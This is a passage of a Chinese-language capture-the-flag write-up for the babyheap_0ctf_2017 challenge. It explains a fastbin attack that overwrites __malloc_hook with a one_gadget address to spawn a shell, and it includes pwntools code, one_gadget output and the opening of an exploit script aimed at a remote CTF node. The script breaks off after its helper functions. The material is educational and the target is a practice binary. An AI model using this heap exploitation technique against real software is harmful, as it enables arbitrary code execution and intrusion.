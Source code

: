 在0x7f12e66c5aed，这样就可以构造出一个index为5的fastbin，这样就可以改写__malloc_hook了。

```python
allocate(0x60)
free(4)
payload = p64(libc_base+0x3c4aed)
fill(2, payload)
```

 首先把 chunk 4 malloc 回来，这次 malloc 的大小在 fastbin 之内，然后把 chunk 4 的内容改为我们下一个要构造块的地址（chunk 4 已经被 free 掉，所以无法用 fill(4) 写入，由于我们刚刚把 chunk 2 的 fd 指针改为 chunk 4 的地址，所以第一次 malloc(0x10) 的时候是分配的原来 chunk 2 的块给 index 1，第二次 malloc(0x10) 的时候就会分配 chunk 4 的块给 index 2，也就是说 index 2 与 index 4 的内容都是 chunk 4）

这里介绍一个神奇的工具 one gadget，只用一个 gadget 地址就可以成功调用 execve("/bin/sh")。

```
gwt@ubuntu:~/Desktop$ one_gadget libc-x64-2.23.so 
[OneGadget] Checking for new versions of OneGadget
            To disable this functionality, do
            $ echo never > /home/gwt/.cache/one_gadget/update

[OneGadget] A newer version of OneGadget is available (1.6.2 --> 1.7.4).
            Update with: $ gem update one_gadget && gem cleanup one_gadget
0x45216	execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4526a	execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf02a4	execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1147	execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

在 __malloc_hook 地址处写入 one_gadget ，这样再次 allocate 就可以调用 one_gadget 拿 shell

EXP:

```python
from pwn import *
from LibcSearcher import *
context(log_level='DEBUG')
#io = process('./babyheap_0ctf_2017')
io = remote("node3.buuoj.cn", 28982)
libc = ELF("libc-x64-2.23.so")
def allocate(size):
	io.recvuntil("Command: ")
	io.sendline("1")#allocate
	io.recvuntil("Size: ")
	io.sendline(str(size))

def fill(index,content):
	io.recvuntil('Command: ')
	io.sendline('2')
	io.recvuntil('Index: ')
	io.sendline(str(index))
	io.recvuntil('Size: ')
	io.sendline(str(len(content)))
	io.recvuntil('Content: ')
	io.send(content)


```